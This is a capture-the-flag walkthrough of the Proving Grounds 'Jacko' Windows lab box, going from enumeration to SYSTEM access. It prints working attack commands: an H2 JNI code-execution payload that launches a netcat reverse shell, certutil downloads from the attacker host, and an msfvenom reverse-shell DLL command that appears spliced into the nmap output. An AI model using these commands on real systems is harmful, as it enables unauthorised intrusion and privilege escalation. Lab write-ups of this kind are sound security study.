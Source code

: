 ```yaml
---
layout: post
title: Proving Grounds - Jacko (Intermediate)
---
```


# Introduction 

This is an Intermediate Windows box on Proving Grounds.

# Enumeration
```bash
$ sudo nmap --min-rate 100 -sV -sC -T4  192.168.225.66  -oA nmap/versions -Pn
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-25 08:49 EDT
Nmap scan report for ip-192-168-225-66.eu-west-1.compute.internal (192.168.225.66)
Host is up (0.0070s latency).
Not shown: 995 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: H2 Database Engine (redirect)
|_http-server-header: Microsoft-IIS/10.0
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
8082/tcp open  http          H2 database http console
|_http-title: H2 Console
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-04-25T12:49:31
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 51.13 secondsmsfvenom -p windows/x64/shell_reverse_tcp -f dll -o UninOldIS.dll LHOST=192.168.49.225 LPORT=
```

Checking over all ports, we find one more open at 7680.
```bash
$ sudo nmap --min-rate 100 -p- -T4  192.168.225.66  -oA nmap/all 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-25 08:49 EDT
Nmap scan report for ip-192-168-225-66.eu-west-1.compute.internal (192.168.225.66)
Host is up (0.011s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
7680/tcp open  pando-pub
8082/tcp open  blackice-alerts

Nmap done: 1 IP address (1 host up) scanned in 189.45 seconds
```

## Webservers

We find there is a JSP based H2 database console running on port 8082.

![]({{site.baseurl}}/assets/resources/Pasted%20image%2020220425091314.png)

Running some directory enumeration with `dirsearch`, JSP basedthe initial results are not particularly promising.
```bash
[09:02:33] 200 -  937B  - /.do
[09:02:43] 200 -  937B  - /admin.do
[09:02:43] 200 -  937B  - /admin/login.do
[09:02:55] 200 -    4KB - /favicon.ico
[09:03:03] 200 -  937B  - /patient/login.do
[09:03:03] 200 -  937B  - /patient/register.do
[09:03:05] 200 -  937B  - /physican/login.do
```

On port 80 - we have an IIS 10 webserver containing the documentation for H2.

![]({{site.baseurl}}/assets/resources/Pasted%20image%2020220425091527.png)

Using dirsearch for further enumeration:
```bash
[09:07:53] 301 -  150B  - /html  ->  http://192.168.225.66/html/     (Added to queue)
[09:08:09] 301 -  150B  - /help  ->  http://192.168.225.66/help/     (Added to queue)
[09:08:10] 301 -  152B  - /images  ->  http://192.168.225.66/images/     (Added to queue)
[09:08:10] 200 -    2KB - /index.html
[09:08:22] 301 -  150B  - /text  ->  http://192.168.225.66/text/     (Added to queue)
[09:08:26] Starting: html/
[09:08:30] 200 -   51KB - /html/CHANGELOG.html
[09:08:30] 200 -   51KB - /html/CHANGELOG.HTML
[09:08:30] 200 -   51KB - /html/Changelog.html
[09:08:30] 200 -   51KB - /html/ChangeLog.html
[09:08:38] 200 -   51KB - /html/changelog.html
[09:08:41] 200 -    3KB - /html/download.html
[09:08:43] 200 -   13KB - /html/faq.html
[09:08:44] 301 -  157B  - /html/images  ->  http://192.168.225.66/html/images/     (Added to queue)
[09:08:45] 200 -    4KB - /html/installation.html
[09:08:46] 200 -   22KB - /html/links.html
[09:08:47] 200 -    1KB - /html/main.html
[09:08:53] 200 -    8KB - /html/search.js
[09:09:00] Starting: help/
[09:09:34] Starting: images/
[09:09:49] 200 -    4KB - /images/favicon.ico
[09:10:06] Starting: text/
[09:10:39] Starting: html/images/
```
Seems to just contain the Tutorial and License etc. Nothing particularly interesting. However the changelog shows us the version of H2 installed -  **Version 1.4.199** (2019-03-13)

I then found that this enumeration was somewhat unnecessary as we can **login to the database with a blank password**! Always try blank passwords or generic credentials such as `admin:admin`.

![]({{site.baseurl}}/assets/resources/Pasted%20image%2020220425092949.png)

From some quick searching, we find there is a code execution vulnerability in this version of H2: [49384 - H2 Database 1.4.199 - JNI Code Execution](https://www.exploit-db.com/exploits/49384)

From here we can host `nc.exe` on an SMB server from Kali: 
```bash
impacket-smbserver data -smb2support  .
```

And use the Java template from the exploit to remotely execute it for a reverse shell.
```java
CREATE ALIAS IF NOT EXISTS JNIScriptEngine_eval FOR "JNIScriptEngine.eval";
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("cmd.exe /c //192.168.49.225/data/nc.exe -e cmd.exe 192.168.49.225 8082").getInputStream()).useDelimiter("\\Z").next()');
```

![]({{site.baseurl}}/assets/resources/Pasted%20image%2020220425094250.png)

![]({{site.baseurl}}/assets/resources/Pasted%20image%2020220425094238.png)

# Post Exploitation

Now we successfully have shell access - but as soon as we try to execute a simple command like `whoami`, we run into errors.

![]({{site.baseurl}}/assets/resources/Pasted%20image%2020220425094342.png)

We can fix issue this by setting the `PATH` variable.

```
set PATH=%SystemRoot%\system32;%SystemRoot%;
```

![]({{site.baseurl}}/assets/resources/Pasted%20image%2020220425094707.png)

## Privilege Escalation

Running winPEAS, we get a few interesting results for write permissions and unquoted paths. However I was not able to exploit these, although they may be other possible attack paths.

![]({{site.baseurl}}/assets/resources/Pasted%20image%2020220425100928.png)

![]({{site.baseurl}}/assets/resources/Pasted%20image%2020220425101156.png)

It is always a good idea to check the Program Files directories during the enumeration phase to gather information on any unusual software that may be installed on the machine. Here in `Program Files (x86)` we can see PaperStream IP:

![]({{site.baseurl}}/assets/resources/Pasted%20image%2020220425101322.png)

If we search for this software we find a disclosed LPE - [PaperStream IP (TWAIN) 1.42.0.5685 - Local Privilege Escalation](https://www.exploit-db.com/exploits/49382)

Following the instructions in this exploit, upload a PS script and DLL via `certutil` (or otherwise).
```bash
certutil -urlcache -split -f http://192.168.49.225/49382.ps1 49382.ps1
certutil -urlcache -split -f http://192.168.49.225/UninOldIS.dll UninOldIS.dll
```

Now we can execute the exploit to locally privilege escalate and receive a connect back to our listener.
```powershell
C:\Windows\System32\WindowsPowershell\v1.0\powershell.exe -ep bypass C:\Users\tony\Documents\49382.ps1
```
![]({{site.baseurl}}/assets/resources/Pasted%20image%2020220425110206.png)

At this point we have system shell access on Jacko.

![]({{site.baseurl}}/assets/resources/Pasted%20image%2020220425110047.png)
